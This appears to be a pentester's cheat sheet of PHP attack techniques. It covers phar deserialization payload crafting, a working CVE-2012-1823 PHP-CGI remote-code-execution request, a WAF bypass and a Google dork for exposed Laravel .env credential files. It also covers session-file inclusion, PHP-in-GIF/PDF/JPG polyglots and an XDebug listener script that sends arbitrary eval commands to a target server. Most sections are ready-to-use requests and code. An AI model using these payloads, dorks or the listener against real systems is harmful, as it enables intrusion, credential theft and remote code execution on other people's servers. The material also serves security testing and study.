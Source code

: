 # PHP

## Command execution

Here is a list of functions to execute commands on a system:

```
exec
passthru
shell_exec
system
proc_open
popen
`{CMD}`
curl_exec
curl_multi_exec
```


## Deserialization

### Phar deserialization

The unserialization of a `phar` wrapper is realized in any file operation. Thus,
file operation such as `file_exists` might be less protected, then it's possible
to inject a `phar` wrapper within it.

The following code describes how to create a `phar` wrapper:

```php
<?php

require('weak_class.php');
# We craft an object by overwriting some methods and functions
$obj = new WeakClass();
$obj->args = "id";

# Then, we serialize the object to a file
file_put_contents("/tmp/exploit.phar", serialize($obj));
```

Here is an example of exploitable functions:

```
copy
file_exists
file_get_contents
file_put_contents
file
fileatime
filectime
filegroup
fileinode
filemtime
fileowner
fileperms
filesize
filetype
fopen
is_dir
is_executable
is_file
is_link
is_readable
is_writable
lstat
mkdir
parse_ini_file
readfile
rename
rmdir
stat
touch
unlink
```


## CVE-2012-1823: RCE in PHP-CGI

PHP-CGI up to version 5.3.12 and 5.4.2 is vulnerable to an argument injection.

You can show the page source code:
```
GET https://<host>/file.php?-s
```

Or even execute PHP scripts (or a remote code execution)
```
POST https://<host>/file.php?-d%20allow_url_include%3d1%20-d%20auto_prepend_file%3dphp://input

<?php system('whoami'); ?>
```

More details can be found on the Metasploit script [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/php_cgi_arg_injection.rb)


## Bypass WAF in PHP

From [Abusing PHP query string parser to bypass IDS, IPS, and WAF](https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/):

```
/news.php?%20news[id%00=42 ==> $_GET["news_id"]
```


## Laravel configuration file

The Laravel configuration file is sometimes exposed on the Internet with a dotEnv
file at the root level of the web server:

```
https://<host>/.env
```

You can find vulnerable target using a Google dork:

```
"DB_PASSWORD" filetype:env
```


## PHP session files

On PHP the directive [`session.save_path`](https://www.php.net/manual/en/session.configuration.php#ini.session.save-path)
set the folder where PHP will store the session files. So the session files are
written on the disk. A malicious user may read this files to retrieve information.

On a Windows system (IIS), the default value create files in `C:\Windows\Temp`
with the name `sess_<session_id>`. The `<session_id>` is the value of the
`PHPSESSIONID` cookie. When you have a `Local File Inclusion` (LFI) vulnerability,
it's possible to include this kind of files.

This file contains some user's session variable. So a user can write some PHP
code like `<?php phpinfo() ?>` (as a username for example) in his session and
try to include the file to execute the PHP code.

Here is 2 examples of exploitation:

- The `Alcatel Omnivista 8770` uses this trick to fetch some internal session variable
from the user session. The [exploit](https://www.exploit-db.com/exploits/47761)
gets the session file that is accessible on the server `/session/sess_<session_id>`.

- `ippsec` use this technique in the HTB box [`Sniper`](https://www.youtube.com/watch?v=k7gD4ufex9Q&t=3255s)
to create a use with a username that contains some PHP code. Then he includes
the session file with a LFI.


## PHP Polyglot file

A polyglot file is valid in two different format. For instance a valid `GIF`
file that contains a PHP payload.


### GIF89

[This file](/assets/polyglot.php.gif)) contains a PHP payload in the [Comment
Extension](https://www.w3.org/Graphics/GIF/spec-gif89a.txt) of a 1 pixel GIF:

```bash
hexdump -C assets/polyglot.php.gif
00000000  47 49 46 38 39 61 01 00  01 00 00 ff 00 2c 00 00  |GIF89a.......,..|
00000010  00 00 01 00 01 00 00 02  00 21 fe 3c 3f 70 68 70  |.........!.<?php|
00000020  69 6e 66 6f 28 29 3b                              |info();|
```

### PDF

You can add a comment (`%`) on the PDF header:

```pdf
%PDF-1.2 %<?phpinfo()?>
...
```

### Others formats

On most formats (mp3, jpg, ...) there is an `EOF` after what we can add the
payload. So the easiest way is to append to a valid file our payload:

```bash
cat valid.jpg payload.php > polyglot.php.jpg
```


## XDebug

Make a request with the following parameters and header:

```http
GET /path/to/file.php?XDEBUG_SESSION_START=phpstorm HTTP/1.1
...
X-Forwarded-For: {YOUR_IP}
HTTP_CLIENT_IP: {YOUR_IP}
```

Then on your server execute the following python script:

```python
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
  client_data = conn.recv(1024)
  print(client_data)
  data = raw_input('>> ')
  conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```
